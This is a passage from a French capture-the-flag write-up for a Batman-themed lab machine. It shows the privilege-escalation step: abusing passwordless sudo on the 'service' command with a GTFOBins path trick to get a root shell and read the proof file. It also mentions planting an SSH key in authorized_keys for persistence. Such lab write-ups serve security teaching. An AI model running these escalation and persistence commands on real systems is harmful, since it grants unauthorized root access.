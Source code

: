 ```bash
 #################################################################### ##
 #######################################################################

          
                   ec0e2603172c73a8b644bb9456c1ff6e
```

On peut déposer notre clé publique SSH dans le `authorized_keys` pour avoir un accès moins restreint.

## Bat Escalade de privilèges

`Batman` peut exécuter la commande `service` en tant que root, sans mot de passe :

```bash
batman@waynemanor:~$ sudo -l
Matching Defaults entries for batman on waynemanor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User batman may run the following commands on waynemanor:
    (root) NOPASSWD: /usr/sbin/service
```

Sur GTFObins on trouve une entrée pour cette commande système :

```bash
batman@waynemanor:~$ sudo /usr/sbin/service ../../bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.txt  snap
# cat proof.txt 

Rescue a cat? Unbelievable, I had to leave that journalist who works at 'The Gotham Times' for this animal...

Well... I'll have to get back to the party, Alfred needs me.


                 T\ T\
                 | \| \
                 |  |  :
            _____I__I  |
          .'            '.
        .'                '
        |   ..             '
        |  /__.            |
        :.' -'             |
       /__.                |
      /__, \               |
         |__\        _|    |
         :  '\     .'|     |
         |___|_,,,/  |     |    _..--.
      ,--_-   |     /'      \../ /  /\\
     ,'|_ I---|    7    ,,,_/ / ,  / _\\
   ,-- 7 \|  / ___..,,/   /  ,  ,_/   '-----.
  /   ,   \  |/  ,____,,,__,,__/            '\
 ,   ,     \__,,/                             |
 | '.       _..---.._                         !.
 ! |      .'  _ __ . '.                        |
 .:'      | (-_ _--')  :          L            !
 .'.       '.  Y    _.'             \,         :
  .          '-----'                 !          .
```